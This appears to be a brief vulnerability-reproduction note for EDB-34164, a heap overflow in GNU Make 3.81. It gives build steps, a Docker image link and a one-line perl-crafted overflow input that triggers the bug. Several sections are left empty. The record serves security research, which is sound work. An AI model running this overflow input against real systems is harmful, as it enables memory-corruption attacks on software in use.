 # EDB-34164

## Experiment Environment

Debian Jessie

[Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

## INSTALL & Configuration

```
wget http://ftp.gnu.org/gnu/make/make-3.81.tar.gz;
tar -xvf make-3.81.tar.gz;
cd make-3.81/;
./configure;
make;
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
./make `perl -e 'print "A" x 4000 . "B"x96 . "\xef\xbe\xad\xde"x4'`
```

## PoCs

[Make 3.81 - Heap Overflow (PoC)](https://www.exploit-db.com/exploits/34164/)

## Vulnerability Details & Patch

## References
